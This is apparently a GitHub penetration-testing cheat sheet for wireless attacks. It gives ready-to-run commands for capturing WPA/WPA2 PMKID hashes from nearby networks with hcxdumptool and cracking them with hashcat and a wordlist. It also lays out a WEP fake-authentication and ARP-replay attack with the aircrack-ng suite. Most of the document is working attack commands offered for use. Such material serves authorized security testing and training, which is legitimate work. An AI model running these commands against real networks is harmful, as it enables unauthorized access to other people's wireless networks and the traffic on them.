 Crack the WPA/WPA2 authentication without deauthenticating clients.

Install the required set of tools on Kali Linux:

```
apt-get update && apt-get -y install hcxtools
```

\[Optional] Install the required tool on WiFi Pineapple Mark VII:

```
opkg update && opkg install hcxdumptool
```

\[Optional] Install the required tool on WiFi Pineapple Nano:

```
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes for all nearby networks:

```
hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon
```

\[Optional] Start capturing PMKID hashes for specified WiFi networks:

```
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon --filterlist_ap=filter.txt --filtermode=2
```

Sometimes it can take hours to capture a single PMKID hash.

Extract PMKID hashes from a PCAP file:

```
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start the dictionary attack against PMKID hashes:

```
hashcat -m 16800 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).

## <mark style="color:red;">WEP Attacks</mark>

### <mark style="color:orange;">Fake Authentication Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b <BSSID> -h <OurMac> wlan0mon
aircrack-ng -b <BSSID> <PCAP_of_FileName>
```
